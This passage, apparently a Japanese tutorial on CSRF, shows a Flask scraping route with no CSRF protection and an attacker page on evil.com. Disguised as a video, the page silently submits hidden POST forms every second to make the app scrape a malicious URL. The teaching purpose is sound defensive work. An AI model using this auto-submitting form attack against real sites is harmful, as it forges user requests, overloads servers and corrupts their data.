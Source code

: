 **結果: 被害者は何も気づかずに100万円失う** 😱

---

### シナリオ2: あなたのスクレイピングアプリでの攻撃

#### 現在の実装（CSRF保護なし）

```python
# app/routes.py
@app.route('/scrape', methods=['POST'])
def scrape():
    url = request.form.get('url')
    # URLをスクレイプして保存
    article = scrape_and_save(url)
    return redirect(f'/result/{article.id}')
```

#### 攻撃シナリオ

**攻撃者の目的:**
- あなたのサーバーに負荷をかける（DoS攻撃）
- 悪意のあるURLをスクレイプさせる
- データベースを汚染する

**攻撃コード（evil.com）:**
```html
<!DOCTYPE html>
<html>
<body>
    <h1>面白い動画！</h1>
    <video src="fake.mp4"></video>
    
    <!-- 裏で1秒ごとにスクレイピングリクエストを送信 -->
    <script>
        setInterval(() => {
            const form = document.createElement('form');
            form.action = 'https://your-app.com/scrape';
            form.method = 'POST';
            form.target = '_blank'; // 別ウィンドウで開く（気づかれない）
            
            const input = document.createElement('input');
            input.name = 'url';
            input.value = 'https://malicious-site.com/attack';
            
            form.appendChild(input);
            document.body.appendChild(form);
            form.submit();
            form.remove();
        }, 1000); // 1秒ごと
    </script>
</body>
</html>
```
